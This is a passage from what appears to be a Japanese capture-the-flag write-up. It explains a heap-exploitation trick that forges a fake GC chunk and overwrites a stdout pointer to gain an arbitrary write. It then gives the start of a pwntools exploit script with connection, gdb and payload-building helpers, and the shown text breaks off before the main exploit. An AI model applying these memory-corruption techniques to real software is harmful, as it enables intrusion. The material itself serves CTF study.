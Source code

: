 ポイントは0xdeadbeef（非ゼロであればOK）と１、その次の０が偽GCチャンクになっていて、これでGCスレッドを止めずに攻撃を進めることができます。stdoutへのポインタの部分を変更することで、チャンク１２を編集すればそのアドレスに書き込むことができるという仕組みです。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './main'
HOST = 'localhost'
PORT = 5333

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

def alloc(idx, t, value):
    payload = ''
    payload += '\x01'
    payload += chr(idx)
    if t == 'int':
        payload += '\x00'
    elif t == 'str':
        payload += '\x01'
    elif t == 'char':
        payload += '\x02'
    else:
        payload += t
        
    payload += chr(value)
    return payload 

def delete(idx):
    payload = ''
    payload += '\x02'
    payload += chr(idx)
    return payload 

def edit(idx, value):
    payload = ''
    payload += '\x03'
    payload += chr(idx)
    payload += chr(value)
```